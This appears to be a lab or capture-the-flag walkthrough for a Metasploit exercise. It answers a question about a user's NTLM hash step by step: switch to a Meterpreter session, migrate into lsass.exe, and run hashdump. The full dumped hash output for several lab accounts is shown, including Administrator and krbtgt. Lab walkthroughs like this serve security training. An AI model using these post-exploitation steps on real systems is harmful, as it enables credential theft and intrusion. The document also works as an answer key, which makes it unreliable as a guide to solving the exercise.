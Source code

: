 ```
msf6 post(windows/gather/enum_shares) > 
```
---
What is the NTLM hash of the jchambers user?
=> 69596c7aa1e8daee17f8e78870e25a5c (Step 1-4)


Hint: 

In the Meterpreter prompt: You will need to migrate to the "lsass.exe" process first (ps will list its PID), then run "hashdump".

step 1: set the current to Meterpreter session 
```
session -i 1
```
```
msf6 post(windows/gather/enum_shares) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > 
```
step 2: run ps to find the process "Isass.exe"
```
ps
```
```
 768   668   lsass.  x64   0        NT AUTH  C:\Wind
             exe                    ORITY\S  ows\Sys
                                    YSTEM    tem32\l
                                             sass.ex
                                             e
```
step 3: migrate the process to 768
```
migrate 768
```
```
meterpreter > migrate 768
[*] Migrating from 3648 to 768...
[*] Migration completed successfully.
```
step 4: hashdump 
```
hashdump
```
```
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a9ac3de200cb4d510fed7610c7037292:::
ballen:1112:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
jchambers:1114:aad3b435b51404eeaad3b435b51404ee:69596c7aa1e8daee17f8e78870e25a5c:::
jfox:1115:aad3b435b51404eeaad3b435b51404ee:c64540b95e2b2f36f0291c3a9fb8b840:::
lnelson:1116:aad3b435b51404eeaad3b435b51404ee:e88186a7bb7980c913dc90c7caa2a3b9:::
erptest:1117:aad3b435b51404eeaad3b435b51404ee:8b9ca7572fe60a1559686dba90726715:::
ACME-TEST$:1008:aad3b435b51404eeaad3b435b51404ee:fff00bcd72cdffa3fa9efbb23ee04332:::

```